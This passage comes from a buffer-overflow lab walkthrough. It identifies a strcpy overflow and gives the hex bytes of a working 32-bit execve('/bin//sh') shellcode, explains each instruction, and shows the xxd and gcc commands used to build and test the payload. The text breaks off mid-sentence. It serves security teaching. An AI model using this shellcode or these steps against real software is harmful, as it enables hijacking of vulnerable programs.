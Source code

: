 But while the `fread` command is limited to 517 bytes, line 14:

```C
strcpy(buffer, str);
```

... runs until it sees a `0x00` byte, yet copies into a buffer that is only 24 bytes long.
This is an obvious overflow vulnerability.

Make a file called `shellcode` and paste the following values:

```
31 c0 50 68 2f 2f 73 68
68 2f 62 69 6e 89 e3 50
53 89 e1 99 b0 0b cd 80
```

Then run `xxd -p -r shellcode > badfile` to hex-decode it to the file that the vulnerable program will read.
Whenever you modify your shellcode, rerun this command.

Let's take a look at what it does:

```
31 c0 xorl %eax, %eax ; clear eax
50 pushl %eax ; put a 0-pointer on the stack
68 2f 2f 73 68 pushl "//sh" ; the command to call
68 2f 62 69 6e pushl "/bin"
89 e3 movl %esp, %ebx ; ebx points at the command
50 pushl %eax ; another 0-pointer
53 pushl %ebx ; points at the command
89 e1 movl %esp, %ecx ; pointer to pointer to command
99 cdq ; this zeroes out edx
b0 0b movb $0x0b, %al ; execve syscall number
cd 80 int $0x80 ; syscall
```

We store `/bin//sh` with an extra `/` (that `execve` doesn't mind) since the `0x68` (`pushl`) instruction takes a 4-byte argument, and we don't want to include an `0x00` byte in our shellcode.
When we call `int 0x80`, the stack and registers look like this:

![Shellcode](diagrams/shellcode.png)

We can test whether our shellcode works by setting up a program that calls it explicitly.
Use `test.c` from this lab's directory and compile it as follows:

```bash
$ gcc -z execstack -f no-stack-protector test.c -o test
```

It reads the file called `badfile` into a buffer and then executes this buffer with the following marvel of C syntax:
